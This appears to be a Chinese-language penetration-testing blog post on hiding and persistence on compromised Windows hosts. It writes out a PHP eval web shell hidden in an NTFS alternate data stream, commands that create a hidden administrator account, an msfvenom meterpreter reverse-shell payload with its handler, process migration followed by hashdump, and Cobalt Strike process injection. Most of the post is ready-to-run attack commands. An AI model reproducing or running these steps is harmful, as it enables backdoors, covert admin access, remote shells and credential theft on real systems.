 ```yaml
---
title: Windows权限维持-隐藏篇
date: 2024-01-11 18:53:00 +0800
img_path: /
categories: [肾透, 权限维持]
tags: [肾透, 权限维持]
---
```


## Windows权限维持-隐藏篇

### 利用ADS隐藏文件内容

 在服务器上echo一个数据流文件进去，比如`index.php`是网页正常文件，我们可以这样子搞： 　

```powershell
echo ^<?php echo "success";@eval($_POST['R19ht']);?^> > index.php:R19ht.jpg
```

这样子就生成了一个不可见的`shell R19ht.jpg`，常规的文件管理器、`type`命令，`dir`命令、`del`命令发现都找不出那个`R19ht.jpg`的。　

```
问题1：如何查看index.php:R19ht.jpg内容呢？
		进入文件所在目录，notepad index.php:R19ht.jpg    或者 dir /r
问题2：如何删除index.php:R19ht.jpg？
		直接删除index.php即可
```

使用时结合文件包含去解析内容

```php
<?php
include 'index.php:R19ht.jpg';
?>
```

### 隐藏账号

window 隐藏系统用户操作，CMD命令行下，建立了一个用户名为`test$`，密码为abc123!`的简单隐藏账户,并且把该隐藏账户提升为了管理员权限。

```powershell
net user test$ abc123! /add

net localgroup administrators test$ /add
```

![image-20240111191742546](assets/image-20240111191742546.png)

PS:CMD命令行使用`net user`,看不到`test$`这个账号，但在控制面板和本地用户和组是可以显示此用户的。

![image-20240111192137095](assets/image-20240111192137095.png)

### 进程注入

#### MSF之meterpreter会话注入

首先生成个MSF的木马

```shell
msfvenom -p windows/meterpreter/reverse_tcp lhost=172.24.111.23 lport=4444 -f exe -o msf.exe
```

```shell
search multi/handler
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 172.24.111.23
run
```

![image-20240111194927736](assets/image-20240111194927736.png)

`ps`查看当前进程，当前用户为`WIN-7O8H4QLA6VR\test$`

![image-20240111195857009](assets/image-20240111195857009.png)

通过`migrate`将进程注入到`system进程`。

```shell
migrate 888
getuid
hashdump
```

![image-20240111200346896](assets/image-20240111200346896.png)

#### Cobalt Strike进程注入

选择进程，点击`inject`，随后选择监听器，点击`choose`，即可发现`Cobaltstrike`弹回了目标机的一个新会话，这个会话就是成功注入到某进程的`beacon`。

![image-20240111205000787](assets/image-20240111205000787.png)

![image-20240111205058978](assets/image-20240111205058978.png)
